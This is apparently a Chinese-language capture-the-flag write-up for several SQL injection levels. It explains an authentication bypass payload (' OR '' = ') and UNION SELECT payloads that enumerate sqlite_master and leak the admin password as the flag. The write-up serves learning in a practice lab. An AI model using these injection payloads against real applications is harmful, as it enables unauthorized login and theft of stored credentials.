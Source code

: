 1234' OR '' = '

注意，这里是单引号，因为在sql语句中就是用单引号包裹这两个参数。

```sql
DEBUG: query="SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1234' OR '' = ''"
这是debug信息，真正的sql语句就是：
SELECT rowid, * FROM users WHERE username = 'admin' AND password = '1234' OR '' = ''
```



# 13-SQLi 3

## 问题描述

> This level will require you to figure out how to chain SQL queries in order to leak data. Good luck!

## 思路

就是通过联合查询，泄露admin的password，这个password就是flag。



## exp

```
admin" UNION SELECT password FROM users--
```



# 14-SQLi 4

## 问题描述





## exp

第一步

```
admin"  UNION SELECT name FROM sqlite_master WHERE type='table'--
```

第二步

```
admin" union select password from users_7444461681 where username = "admin"--
```


